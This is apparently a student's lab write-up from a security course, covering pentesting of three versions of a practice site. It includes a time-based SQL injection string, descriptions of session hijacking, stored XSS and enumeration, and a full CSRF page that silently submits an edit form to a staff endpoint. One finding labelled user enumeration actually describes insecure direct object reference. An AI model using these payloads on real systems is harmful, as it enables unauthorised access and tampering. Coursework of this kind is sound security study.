






# Week 9 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: Session Hijacking  
Description 1: The session ID is found from the chrome developer tools console. The attacker changes the session ID using the provided change_session_id.php. The attacker is now able to access the victims session.
  


Vulnerability #2: SQL Injection  
Description: The exploit exists in the salesperson.php page. The exploit is done via the url. Using the given ```' OR SLEEP(5)=0--'``` statement, the page proceeds to wait 5 seconds before returning.
  


## Green

Vulnerability #1: XSS  
Description: This exploit is done via the feedback section. The XSS executes when a privileged user accesses the feedback page in the /staff/feedback/ section.



Vulnerability #2: User Enumeration  
Description: Using the given username "pperson" we can see that a valid username shows a bold error. An incorrect username shows a not-bolded error.


## Red

Vulnerability #1: CSRF  
Description: The attacker submits a malicious webpage into the feedback section. The victim visits the url from the feedback. The malicious webpage can be customized to silently submit a form to the edit section of the victims page.


``` 
<!DOCTYPE html>
		<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>

		<p></p>
		
		<form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=7" method="POST" class="hide-form" id="attackform"  name="form">
			<input type="text" name="first_name" value="EEEEEEE" /><br />
			<input type="text" name="last_name" value="Example !!!" /><br />
			<input type="text" name="phone" value="123-456-7890" /><br />
			<input type="text" name="email" value="abc@abcd.com" /><br />
			<button onclick="submit()">submit</button>
		</form>
		<script>
		function submit() {
			console.log("loaded");
			window.document.forms[0].submit(function(e) {


				console.log("submitted");
			});
		}
		</script>
</html>
```

Vulnerability #2: User Enumeration  
Description: By directly changing the 'id' parameter in the URL we can find salespersons not mentioned on the page. ID's 10 and 11 shouldn't be accessible by everyone. 


